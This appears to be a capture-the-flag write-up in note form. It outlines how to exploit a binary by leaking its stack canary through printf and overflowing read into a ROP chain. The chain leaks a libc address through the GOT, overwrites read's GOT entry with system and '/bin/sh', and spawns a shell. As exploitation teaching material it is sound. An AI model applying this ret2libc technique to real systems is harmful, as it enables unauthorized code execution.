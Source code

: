 **Read source code**
- `printf("Buf: %s\n", buf);`: leak canary
- `read(0, buf, 0x100);`: bufferoverflow => ROP
- Stack
```
buf (rbp - 0x40)
canary (rbp-0x8)
rdi -> 1
rsi -> read_got
r15 -> 0
write_plt
---
rdi -> 0
rsi -> read_got
r15 -> 0
read_plt
---
rdi -> read_got+8
ret
read_plt
```
- `Checksec` in gdb
```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
- So the idea is that use gadget to change the execution flow of a program without injecting new code.
- Then overwrite GOT of `read` with `system` and `/bin/sh`
---  
***EPLOIT***
```
write(1, read_got,)
read(0, read_got,)
read(read_got + 0x8)
```
- Follows the System V AMD64 ABI function calling convention, where:
  + rdi contains the first parameter (file descriptor, e.g. 0 for stdin, 1 for stdin)
  + rsi contains the second parameter (buffer to store the read data)
  + rdx contains the third parameter (number of bytes to read)
  + stack have to be 16 bytes before call (we usually put `ret` before call)  
      + Why ret ? Because ret does not work with system() parameters. When executing `ret`, the prog get the addr on the top of stack(rsp) and jump to that addr = rsp + 0x8
- Luckyly, when debug, rdx is set at 0x100, so we just need to change rdi and rsi
- Get address of read_got by `write(1, read_got,)`
- Calculate `libc_base = read - read_offset`
- Calculate `system = libc_base + system_offset`
- Overwrite address of `read_got` with `system + binsh` by using `read(0, read_got,)`
- Call `system("/bin/sh")` by `read(read_got + 0x8)`
  + `read_got + 0x8` is `/bin/sh`
- Remember to use `pwninit` to patch binary and library (libc.so.6) to run program properly with desired environment
